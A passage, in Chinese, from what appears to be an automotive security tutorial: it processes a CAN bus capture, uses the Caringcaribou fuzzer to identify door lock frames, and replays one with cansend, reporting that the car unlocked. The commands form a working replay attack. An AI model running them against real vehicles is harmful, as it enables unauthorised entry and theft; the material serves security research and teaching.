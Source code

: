 1.3 停止抓包并对抓到的数据进行处理

`cat candump.log | awk '{print $3}' > res.txt`

1.4 利用Caringcaribou工具进行重放攻击

`cc.py fuzzer identify res.txt`

1.5 根据汽车是否出现对应反应选择y/n, 获取开关车门数据包

![图片](assets/1704762236-1ccc9d1170978705ac04387e2297e95b.png)

1.6 对开关车门数据包进行重放

`cansend can0 100#3d157d40d9000560`

观察到车锁成功被开启

![图片](assets/1704762236-9cd3d11e23314f2672baa061b180365e.png)
